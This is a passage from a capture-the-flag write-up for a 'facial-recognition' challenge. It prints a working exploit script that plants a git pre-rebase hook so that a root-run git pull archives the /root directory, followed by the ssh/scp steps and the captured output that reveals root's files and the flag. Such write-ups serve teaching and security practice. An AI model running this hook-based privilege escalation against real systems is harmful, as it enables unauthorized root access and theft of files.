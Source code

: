 From here, the `exploit.sh` was:

```bash
#!/bin/bash

# cd /tmp/facialrecognition
cd /facialrecognition
git config pull.rebase true
git config user.email me@example.org
git config user.name me

# Cleanup the permissions diff
git restore nginx.conf
# Use cfi2017's repo
sed -i 's/portableops/cfi2017/' .git/config
# ... but create a local commit conflicting with it
echo "different a" >a
git add a
git commit -m "different a"

# Prepare the hook
echo -e "#!/bin/sh\ntar cf /tmp/root.tar /root" >.git/hooks/pre-rebase
chmod a+x .git/hooks/pre-rebase
```

Then:

*   Start a fresh instance at
    [library.m0unt41n.ch/challenges/facial-recognition](https://library.m0unt41n.ch/challenges/facial-recognition)
    <br>(ideally shortly after `:00`, to get local repo in pristine state,
    before the first `git pull` attempt). Write down the new `PORT`.
*   `scp -P $PORT -i webapp.key exploit.sh webapp@library.m0unt41n.ch`
*   `ssh -p $PORT -i webapp.key webapp@library.m0unt41n.ch`
*   `sh exploit.sh`

Few moments later...

```bash
$ ls -l /tmp
-rw-r--r-- 1 root root 20480 Feb 23 18:46 root.tar

$ tar tvf /tmp/root.tar
drwx------ root/root         0 2025-02-14 23:15 root/
-rw-r--r-- root/root       161 2019-07-09 12:05 root/.profile
-rw-r--r-- root/root      3106 2021-10-15 12:06 root/.bashrc
-rw-r--r-- root/root        39 2025-02-14 23:15 root/.gitconfig
-rw-r--r-- root/root        36 2025-02-14 23:15 root/flag.txt

$ tar xOf /tmp/root.tar root/flag.txt
shc2023{lmao_git_h00ks_cfeae2d2941}
```

BTW, the `.gitconfig` explains why my attempts to use local repos were futile:
